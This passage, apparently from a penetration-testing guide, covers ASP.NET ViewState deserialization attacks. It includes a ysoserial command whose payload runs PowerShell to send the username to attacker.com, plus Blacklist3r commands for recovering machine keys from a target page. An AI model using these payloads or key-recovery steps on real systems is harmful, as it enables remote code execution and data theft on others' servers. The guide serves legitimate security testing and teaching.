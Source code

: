 ```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```

### Test case 1.5 – Like Test case 1 but the ViewState cookie isn't sent by the server

Developers can **remove ViewState** from becoming part of an HTTP Request (the user won't receive this cookie).\
One may assume that if **ViewState** is **not present**, their implementation is **secure** from any potential vulnerabilities arising with ViewState deserialization.\
However, that is not the case. If we **add ViewState parameter** to the request body and send our serialized payload created using ysoserial, we will still be able to achieve **code execution** as shown in **Case 1**.

### Test Case: 2 – .Net < 4.5 and EnableViewStateMac=true & ViewStateEncryptionMode=false

In order to **enable ViewState MAC** for a **specific page** we need to make following changes on a specific aspx file:

```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```

We can also do it for **overall** application by setting it on the **web.config** file as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
 <machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
 <pages enableViewStateMac="true" />
</system.web>
</configuration>
```

As the parameter is MAC protected this time to successfully execute the attack we first need the key used.

You can try to use [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper)to find the key used.

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```
